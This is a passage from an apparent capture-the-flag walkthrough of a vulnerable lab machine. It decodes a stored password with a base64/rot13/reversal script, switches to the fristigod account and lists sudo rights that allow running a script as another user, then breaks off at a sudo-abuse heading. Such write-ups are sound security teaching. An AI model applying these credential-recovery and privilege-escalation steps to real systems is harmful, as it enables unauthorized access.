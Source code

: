 ```python

# Decode the base64 string
def b64Decode(y):
    string = base64.b64decode(y)
    return string.decode('utf-8')

txt = b64Decode(decodeRot13(revString(string)))
print(txt)
```

### Password Disclosure

We run the script and get the password for **fristigod** user.

```console
root@kali:~$ python3 decryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG 
LetThereBeFristi!
```

We switched to the user **fristigod**.

```console
[admin@localhost ~]$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
```

Listing the sudo permissions, we see that **fristigod** can execue the **doCom** script as user fristi.

```console
-bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

### Sudo Permissions
